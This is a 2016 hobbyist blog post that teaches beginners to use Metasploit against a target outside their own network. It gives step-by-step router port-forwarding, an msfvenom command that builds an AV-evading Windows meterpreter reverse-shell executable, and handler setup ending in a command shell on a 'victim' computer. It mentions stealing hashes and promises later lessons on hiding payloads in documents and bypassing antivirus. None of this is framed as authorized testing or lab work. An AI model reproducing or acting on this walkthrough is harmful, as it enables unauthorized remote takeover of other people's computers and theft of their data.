 ```yaml
---
layout:     post
title:      "Beginner's Guide to Metasploit"
subtitle:   "Super l33t h4x0r time!"
date:       2016-03-27 12:00:00
author:     "ex0dus"
header-img: "img/PostBG/post-bg-06.png"
---
```


<p>Due to popular request, I'm going to teach Metasploit.</p>
<p><b>Metasploit</b> is a pen testing framework suite written in the Ruby programming language. People use Metasploit to commonly gain access to a computer, through exploits, which find flaws, whether in the system or software the victim has and allows you to gain access.</p>
<p>It is pretty complicated, so I will be covering some of the essentials in a simple tutorial. 
We will set up a basic so-called "virus". Technically it’s a payload that acts as a backdoor, so that once the user executes it, you get ahold of their computer.</p>
<p>This tutorial will mostly base around the premise that your target is outside your network, so there is going to be a little configuration.</p>
<h2 class="section-heading">Installing</h2>
<p> If you are on Kali Linux, which is recommended, metasploit is automatically installed, as I have said before. Simply type <b>"msfconsole"</b> to get started. I recommend using the Linux version. The Windows version is pretty limited and is kind of shit. If you are on Ubuntu like me, and want to install it, good luck. This was probably one of the hardest things I've ever done. You might as well use Kali on VM if you can't install it. But if you are hardcore, click <a href="http://www.darkoperator.com/installing-metasploit-in-ubunt/"><b>Here</b></a>
<h2 class="section-heading">Getting Started</h2>
1. Type "ifconfig" in your terminal. Obtain your inet address, most likely in wlan0 or eth0 (it should be 192.168.x.x for most). This is your computers given address on your network. 
<img src="/img/BeginnersGuideToMetasploit/ifconfig.png">
2. Open your router settings. This is achieved by typing 192.168.1.1 in your browser (search it up if it isn't it. Every router brand is different. I use a Verizon router).
<img src="/img/BeginnersGuideToMetasploit/verizonlogin.png">
3. Find out where port forwarding is. There may be a tab called “Firewall” you might have to click. Again, all router brands are different in terms of settings and configuration, so you might have to go on the Internet and search it up. For my Verizon router, there is a tab called “Firewall”. After clicking on it, I get routed to another page, where this a tab on the side called “Port Forwarding”.
<img src="/img/BeginnersGuideToMetasploit/firewallportfor.png">
4. Enter the IP address you had previously, the one for your computer. Port forward port “4444”. What will happen is, when you receive a request for a connection to your public IP address through port 4444, it will be rerouted to your local IP. It’s kind of like a map. Port forwarding is me building a shortcut. 
5. In your terminal, we will make our payload. Type:
<pre><code class="language-bash">msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00′ LHOST=[your PUBLIC IP] LPORT=4444 -f exe > payload.exe</code></pre>
Let’s break this down. <b>MSFvenom</b> is the payload creation script (it was originally msfpayload). <b>–P</b> is the parameter to pass that signifies what kind of payload we are creating. In this case, we are creating a <b>windows/meterpreter/reverse_tcp</b> one. This kind of payload will create a shell called Meterpreter, which is like the Command Line, but for hackers. I’ll get to it later. <b>–E x86/shikata_ga_nai</b> is the parameter for encoding the payload using shikata_ga_nai, where we mask it so that the victim’s anti-virus won’t detect the payload, since it is technically, a virus. Encoding a payload using MSFvenom isn’t really effective anymore, but it is for the sake of demonstration. Don’t worry, there are ways to mask payloads and bypass AV. I will talk about it later. <b>–I 5</b> means we encode it 5 times. <b>–B ‘x/00’</b> has something to do with shellcode, and we won’t really get into it. Now however the next part, LHOST and LPORT is important. You will enter your public IP address in LHOST. Public, not the 192.168.x.x one. Your LPORT will be 4444. This means that once the victim opens the payload, a connection will be sent to your public IP, and it will forwarded to your local IP (the 192.168.x.x one), where a listener will be set up (we will do this in the next 2 steps).
6. After you press enter, the payload will generate. Open another terminal and type “msfconsole”. You will see an interpreter-style-thingy like this:
<img src="/img/BeginnersGuideToMetasploit/msfcli.png">
7. After your payload is generated, it should be in your /root/ directory. Leave it where it is for now. In your terminal with Metasploit open, type 
<pre><code class="language-bash"><b>msf ></b> use exploit/multi/handler</code></pre>
8. This is the handler that will be set up to handle the incoming request from the victim's computer. Now type in:
<pre><code class="language-bash"><b>msf exploit(handler) ></b> set LHOST=[your LOCAL IP here]</code></pre>
9. We will establish a listener that will listen for the request. It will be hosted on your computer, hence the LOCAL IP.
<pre><b>msf exploit(handler) ></b>set LPORT=4444</pre>
10. This establishes the port. Now type:
<pre><b>msf exploit(handler) ></b>show options</pre>
11. Everything should be set and in place. Now type run:
<pre><code class="language-bash"><b>msf exploit(handler) ></b>run
12. You will see something like:
[*]Started reverse handler on 192.168.x.x:4444
[*]Starting the payload handler…</code></pre>
13. You have set up your handler and listener! Now in order to get a Meterpreter shell, a victim needs to open your payload. Doing so, a connection will be sent back, and your listener will intercept the connection and the handler will start a meterpreter session, which looks like:
<pre><b>meterpreter></b></pre>
14. Congrats! You learnt the basics of Metasploit. Now you may ask, what to do with meterpreter? Well, here’s an example:
<pre><code class="language-bash"><b>meterpreter></b> shell
Process 2314 created
Channel 1 created
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
<b>C:\Windows\System32></b></code></pre>

This establishes a Windows Command Prompt shell and now you have access over the victim's computer!
You can do much more with Meterpreter. You can take a screeshot of the victim's computer, see system processes, steal hash, etc. Here’s a list:
<a href="http://null-byte.wonderhowto.com/how-to/hack-like-pro-ultimate-command-cheat-sheet-for-metasploits-meterpreter-0149146/"><b>Null Byte</b></a>

<p> Well that is all. This article was probably a little dull, but I will soon elaborate on this tutorial. I will talk about exploitation through obfuscating payloads in PDF files, text documents, videos, etc. I will also talk about bypassing AV (anti-virus), since many modern day AVs detect these Metasploit payloads as viruses and backdoors. </p>

<h2> Thanks for reading! Of course, I will be back to make more soon. If you ever have any inquiries or concerns, I have set up a Contact Form in the <b>Contact</b> session of this site! Please do not hesistate to use it.</h2>